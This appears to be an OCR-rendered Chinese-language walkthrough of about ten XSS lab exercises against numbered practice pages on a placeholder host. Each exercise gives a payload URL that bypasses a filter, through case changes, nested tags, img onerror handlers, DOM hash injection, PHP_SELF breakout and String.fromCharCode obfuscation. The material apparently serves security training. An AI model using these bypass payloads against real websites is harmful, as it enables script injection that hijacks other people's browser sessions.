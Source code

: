 ## 1、大小写绕过

```http
http://target_sys.com/xss/xss04.php?name=<Script>alert(1);</Script>
```

## 2、属性多余

```http
http://target_sys.com/xss/xss05.php?name=<script<script>>alert(1);</sc</script>ript>
```

## 3、转换标签

```http
http://target_sys.com/xss/xss06.php?name=moon<img src=a onerror=alert(1)>
```

## 4、禁用alert

```http
http://target_sys.com/xss/xss07.php?name=<img src="1" onerror="confirm('xss')">
```

## 5、js输出

```http
http://target_sys.com/xss/xss08.php?name=moon";alert($a)//
```

## 6、js过滤输出

过滤单引号

```http
http://target_sys.com/xss/xss09.php?name=moon';alert($a);//
```

## 7、dom输出

```http
http://target_sys.com/xss/xss10.php?name=moon#<script>alert(/xss/);</script>
```

hash 属性是一个可读可写的字符串，该字符串是 URL 的锚部分（从 # 号开始的部分）。

substring 从#开始截取后面的部分

## 8、urlxss

```http
http://target_sys.com/xss/xss11.php/" onsubmit="alert('1')
```

执行，再提交

$_SERVER['PHP_SELF'] 

## 9、过滤特殊字符

php开启gpc之后 

单引号（’）、双引号（”）、反斜线（）与 NUL（NULL 字符）等字符都会被加上反斜线

```http
http://target_sys.com/xss/xss12.php?name=<script>alert(1);</script>
http://target_sys.com/xss/xss12.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
```

## 10、过滤大小号

```http
http://target_sys.com/xss/xss13.php?name=moon' onmouseover='javascript:alert(1)
```